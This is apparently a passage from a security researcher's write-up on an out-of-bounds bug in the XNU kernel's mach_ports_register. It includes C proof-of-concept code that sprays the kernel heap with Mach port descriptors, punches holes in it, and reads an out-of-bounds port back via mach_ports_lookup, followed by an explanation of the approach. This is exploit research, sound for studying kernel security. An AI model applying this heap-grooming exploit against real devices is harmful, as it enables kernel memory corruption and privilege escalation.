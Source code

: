 ```c
    assert(mach_msg(&InP->Head, MACH_SEND_MSG|MACH_MSG_OPTION_NONE, (mach_msg_size_t)sizeof(Request)+num*sizeof(mach_msg_ool_ports_descriptor_t), 0, 0, MACH_MSG_TIMEOUT_NONE, MACH_PORT_NULL) == 0);

    return target;
}

typedef struct {
    mach_msg_header_t Head;
    mach_msg_body_t msgh_body;
    mach_msg_ool_ports_descriptor_t init_port_set;
} Request;

void release(mach_port_t port) {
    char req[0x1000];
    assert(mach_msg((mach_msg_header_t*)req, MACH_RCV_MSG, 0, sizeof(req), port, MACH_MSG_TIMEOUT_NONE, MACH_PORT_NULL) == 0);
}

mach_port_t exploit(void) {
    mach_port_t fp[1024] = {MACH_PORT_NULL};
    mach_port_t port_array[2] = {MACH_PORT_NULL};
    mach_port_t *returned_ports = 0;
    mach_msg_type_number_t sz = 3;

    mach_port_allocate(mach_task_self(), MACH_PORT_RIGHT_RECEIVE, &port_array[0]);
    mach_port_allocate(mach_task_self(), MACH_PORT_RIGHT_RECEIVE, &port_array[1]);
    mach_port_insert_right(mach_task_self(), port_array[0], port_array[0], MACH_MSG_TYPE_MAKE_SEND);
    mach_port_insert_right(mach_task_self(), port_array[1], port_array[1], MACH_MSG_TYPE_MAKE_SEND);


    for(int i = 0; i < 1024; i++) {
        fp[i] = spray(1);
    }

    for(int i = 0; i < 1024; i += 2) {
        release(fp[i]);
    }

    reg(port_array,2,3);
    mach_ports_lookup(mach_task_self(), &returned_ports, &sz);

    mach_port_t fake = returned_ports[2];
    return (fake == dummy);
}
```

I decided to use the OOB vulnerability since I don’t know much about good kernel heap structures. in this POC, I tried to receive the `dummy` port from the OOB in `mach_ports_register` with `mach_ports_lookup` (MIG function to acquire the ports from `mach_ports_register`), which was sprayed all over the heap zone where our OOL ports descriptor is located. I free’d every second port to create “holes”. we want our allocated ports from `reg` to be placed in front of an allocated `dummy` port, so `mach_ports_register` can access a valid mach port OOB. after we call `mach_ports_lookup` we can receive the OOB port and compare it if we our sprayed port.
